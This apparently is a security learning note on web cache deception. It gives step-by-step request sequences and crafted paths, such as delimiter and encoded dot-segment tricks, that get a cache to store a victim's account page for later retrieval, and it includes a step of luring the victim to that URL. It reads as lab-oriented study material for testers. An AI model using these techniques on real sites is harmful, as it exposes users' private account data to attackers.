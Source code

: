 # Web cache deception

Web cache deception is a vulnerability where an attacker tricks a web cache into storing sensitive content due to differences in how cache and origin servers handle requests. The attacker lures a victim into visiting a malicious URL, causing the cache to mistakenly store private data as a static resource. The attacker can then access the cached response, gaining unauthorized access to the sensitive information.

More info about web cache: [web-cache.md](../web-security/web-cache.md "mention")

## <mark style="color:yellow;">Constructing a web cache deception attack</mark> <a href="#constructing-a-web-cache-deception-attack" id="constructing-a-web-cache-deception-attack"></a>

1. Identify a target endpoint that returns dynamic responses with sensitive information, focusing on those supporting GET, HEAD, or OPTIONS methods, as they are typically cached
2. Look for discrepancies in how the cache and origin server parse the URL path
3. Craft a malicious URL to trick the cache into storing a dynamic response. When the victim accesses it, their data is cached. Use Burp to request the same URL and retrieve the cached response. Avoid using a browser to prevent redirects or data invalidation.

## <mark style="color:yellow;">Static extension cache rules</mark>

Cache rules often target static resources by matching common file extensions like `.css` or `.js`. This is the default behavior in most CDNs.

### <mark style="color:yellow;">Path mapping discrepancies</mark> <a href="#exploiting-path-mapping-discrepancies" id="exploiting-path-mapping-discrepancies"></a>

<details>

<summary>Path mapping discrepancies (REST-style vs traditional URL)</summary>

Consider the following example:

`http://example.com/user/123/profile/wcd.css`

* An origin server using **REST-style** URL mapping may interpret this as a request for the `/user/123/profile` endpoint and returns the profile information for user `123`, ignoring `wcd.css` as a non-significant parameter.
* A cache that uses **traditional URL** mapping may view this as a request for a file named `wcd.css` located in the `/profile` directory under `/user/123`. It interprets the URL path as `/user/123/profile/wcd.css`. If the cache is configured to store responses for requests where the path ends in `.css`, it would cache and serve the profile information as if it were a CSS file.

</details>

<pre class="language-markdown"><code class="lang-markdown"># 1. Find good endpoint
/my-account        # Contains sensitive data -> Good endpoint
<strong>
</strong># 2. Check if web cache is used
/test.js # 1 time "X-Cache: miss" -> Ok, there should be a cache mechanism
/test.js # 2 time "X-Cache: hit" -> Perfect, the page is cached
<strong>
</strong><strong># 3. Check if origin server uses REST-style
</strong><strong>/my-account/abc    # The response is identical to the original -> REST-style
</strong><strong>
</strong><strong># 4. Check if cache server uses traditional URL &#x26; explotation
</strong>/my-account/abc.js # 1 time "X-Cache: miss" -> Ok, there should be a cache mechanism
/my-account/abc.js # 2 time "X-Cache: hit" -> Perfect, the page is cached
# Now https://vulnerable.website.com/my-account/abc.js contains your sensitive data cached

# Find a way to send the victim on http://site.com/my-account/xyz.js
# Note: I omitted cache buster for for simplicity
</code></pre>

{% hint style="info" %}
**Note**:&#x20;

* This attack is limited to the specific endpoint that you tested, as the origin server often has different abstraction rules for different endpoints.
* Try various extensions, such as `.css`, `.ico`, and `.exe`, as caches may have rules for specific extensions.
{% endhint %}

### <mark style="color:yellow;">Delimiter discrepancies</mark> <a href="#exploiting-delimiter-discrepancies" id="exploiting-delimiter-discrepancies"></a>

<details>

<summary>Delimiter discrepancies</summary>

to do

</details>

Objective: identify a character that is used as a delimiter by the origin server but not the cache. Use this list: [https://portswigger.net/web-security/web-cache-deception/wcd-lab-delimiter-list](https://portswigger.net/web-security/web-cache-deception/wcd-lab-delimiter-list)

<pre class="language-python"><code class="lang-python"># 1. Find good endpoint
/my-account        # Contains sensitive data -> Good endpoint

# 2. Check if web cache is used
/test.js # 1 time "X-Cache: miss" -> Ok, there should be a cache mechanism
/test.js # 2 time "X-Cache: hit" -> Perfect, the page is cached

# 3. Fuzz delimeter char
/my-account§§aaa   # Fuzz delimeter char. -> with ";" -> The response matches the original

# 4. Check if delimiter is not used by the cache
/my-account        # "X-Cache: miss"
my-account;abc.js # "X-Cache: miss"
# The cache thinks "my-account;abc" is the name and ".js" is the extension

# 5. Exploitation
<strong>/my-account;abc.js # 1 time "X-Cache: miss"
</strong>/my-account;abc.js # 2 time "X-Cache: hit"
# Now https://vulnerable.website.com/my-account;abc.js contains your sensitive data cached

# Find a way to send the victim on http://site.com/my-account;xyz.js
# Note: I omitted cache buster for for simplicity
</code></pre>

{% hint style="info" %}
**Note**:&#x20;

* Because delimiters are generally used consistently within each server, you can often use this attack on many different endpoints.
*   Some delimiter characters may be processed by the victim's browser before it forwards the request to the cache. This means that some delimiters can't be used in an exploit. For example, browsers URL-encode characters like `{`, `}`, `<`, and `>`, and use `#` to truncate the path.

    If the cache or origin server decodes these characters, it may be possible to use an encoded version in an exploit.
* Make sure to test all ASCII characters and a range of common extensions, including `.css`, `.ico`, and `.exe`
{% endhint %}

### <mark style="color:yellow;">Exploiting delimiter decoding discrepancies</mark> <a href="#exploiting-delimiter-decoding-discrepancies" id="exploiting-delimiter-decoding-discrepancies"></a>

to understand

## <mark style="color:yellow;">Static directory cache rules (normalization discrepancies)</mark> <a href="#exploiting-static-directory-cache-rules" id="exploiting-static-directory-cache-rules"></a>

Web servers often store static resources in specific directories. Cache rules typically target these by matching URL path prefixes like `/static`, `/assets`, `/scripts`, or `/images`.

Premise

* If you type in your browser `https://website/test/../account`, it'll make the following request `GET /account HTTP/2`. &#x20;
* If you type in your browser`https://website/test/..%2faccount`, it'll make the following request `GET /test/..%2faccount HTTP/2`. &#x20;

<pre><code># 1. Find good endpoint
/my-account            # Contains sensitive data -> Good endpoint

# 2. Check if web cache is used (with static resources)
<strong>/static/js/info.js     # 1 time "X-Cache: miss" -> Ok, there should be a cache mechanism
</strong>/static/js/info.js     # 2 time "X-Cache: hit" -> Perfect, the page is cached
</code></pre>

### <mark style="color:yellow;">Normalization by the origin server</mark> <a href="#exploiting-normalization-by-the-origin-server" id="exploiting-normalization-by-the-origin-server"></a>

<pre class="language-sh"><code class="lang-sh"># 3. Confirm that the cache rule is based on the static directory
/static/../xxx         # 1 time "X-Cache: miss"
/static/../xxx         # 2 time "X-Cache: hit" -> so all subpages in /static/ will be cached 

# 4. Detecting normalization by the origin server
/aaa/..%2fmy-account    # Returns the profile information -> The origin server decodes the slash and resolves the dot-segment

# 5. Detecting normalization by the cache server
/static/js/info.js     # 1 time "X-Cache: miss"
<strong>/static/js%2finfo.js   # 2 time "X-Cache: miss" -> Cache isn't normalizing the path before mapping it to the endpoint
</strong># So the cache thinks "/static/js/info.js" is different from "/static/js%2finfo.js

# 6. Exploiting
/static/..%2fmy-account

# The cache interprets the path as: /static/..%2fmy-account
<strong># The origin server interprets the path as: /my-account
</strong></code></pre>

### <mark style="color:yellow;">Normalization by the cache server</mark>

<pre class="language-sh"><code class="lang-sh"># 3. Confirm that the cache rule is based on the static directory
# This step is useless, so you can't confirm if the cache decodes 
# dot-segments and URL paths without trying an exploit.
<strong>
</strong><strong># 4. Detecting normalization by the origin server
</strong>/aaa/..%2fmy-account    # Not found -> The origin server doesn't decode the slash and doesn't resolve the dot-segment

# 5. Detecting normalization by the cache server
/static/js/info.js     # 1 time "X-Cache: miss"
/static/js/info.js     # 2 time "X-Cache: hit"
/static/js%2finfo.js   # 2 time "X-Cache: hit" -> Cache has normalized the path
# So the cache understand that they are the same path

# 6. Identify a delimiter that is used by the origin server but not the cache
/my-account§§aaa   # Fuzz delimeter char. -> with "%23" -> The response matches the original

# 7. Check if delimiter is not used by the cache 
/static/js/info.js        # "X-Cache: miss"
/static/js/info.js%23aaa  # "X-Cache: miss"
# So the cache thinks "info.js" is different from "info.js%23aaa"

# 8. Exploitation
/my-account%23%2f%2e%2e%2fstatic/js/info.js

# The cache interprets the path as: /static
# The origin server interprets the path as: /my-account
</code></pre>
